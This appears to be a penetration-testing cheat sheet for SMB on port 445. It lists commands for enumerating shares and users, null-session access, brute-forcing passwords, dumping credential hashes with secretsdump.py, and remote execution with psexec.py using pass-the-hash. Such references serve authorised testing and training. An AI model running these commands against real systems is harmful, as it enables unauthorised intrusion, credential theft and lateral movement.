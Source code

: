 # 445 - SMB

> Don't use vanilla smbclient and enum4linux

## Listing shares

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <RHOST>
smbmap.py -H <RHOST> -u <user> -p <pass/hash>
crackmapexec smb --shares <RHOST> -u <user> -p <pass>
smbclient -N -L \\\\<RHOST>

smbmap.py -H $1 -u "" -p ""
crackmapexec smb --shares $1 -u "" -p ""
```

## Default shares

```
ADMIN$
C$
IPC$
```

## Connecting to share

```
smbclient.py <target>
  shares
  use <share>
  ls

# mount -t cifs [-o 'username=<user>,password=<pass>'] //<target>/<remote> <local>
```

## Bruteforcing

```
crackmapexec smb <target> -u <user/list> -p <pass/list> --continue-on-success
```

## vanilla smbclient commands

```
SMB> allinfo
SMB> more <file>:<stream>
SMB> recurse on
SMB> prompt off
SMB> mget *
```

## secretsdump

```
secretsdump.py <domain>/<user>@<target>
```

## checking for psexec.py

```
crackmapexec smb <target> -u <user> (-H <hash> || -p <pass>)
```

## psexec.py

```
psexec.py <adminuser>@<target> [-hashes <hash:hash>]
```
